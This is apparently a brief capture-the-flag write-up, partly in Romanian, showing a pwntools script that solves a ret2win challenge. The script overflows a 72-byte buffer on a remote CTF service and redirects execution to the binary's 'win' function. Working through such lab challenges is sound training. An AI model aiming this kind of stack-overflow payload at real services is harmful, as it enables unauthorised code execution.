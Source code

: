 I instantly recognized this from a chall on cyberedu and had an exploit script almost working already.
Asa ca doar am verificat cu objdump daca are symbols si am aplicat scriptul urmator:


from pwn import *

p = remote("ctf.ac.upt.ro", 9232)

elf = ELF("./challenge")
win = elf.symbols["win"]

payload  = b"A" * 72     
payload += p64(win)      

p.sendlineafter(b"Spune ceva:", payload)

p.interactive()


